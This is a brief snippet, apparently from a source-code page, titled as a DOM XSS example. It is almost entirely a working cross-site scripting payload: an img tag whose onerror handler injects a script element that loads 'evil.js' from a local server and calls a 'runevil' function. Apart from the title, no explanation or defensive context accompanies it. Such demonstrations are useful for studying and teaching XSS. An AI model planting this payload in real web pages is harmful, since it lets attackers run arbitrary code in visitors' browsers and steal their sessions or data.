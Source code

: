 # DOM XSS Load and run external script example
<img src=1 onerror="
var head= document.getElementsByTagName('head')[0];
var script= document.createElement('script');
script.onload=function(){runevil()};
script.src= 'http://localhost:8003/evil.js';
head.appendChild(script);">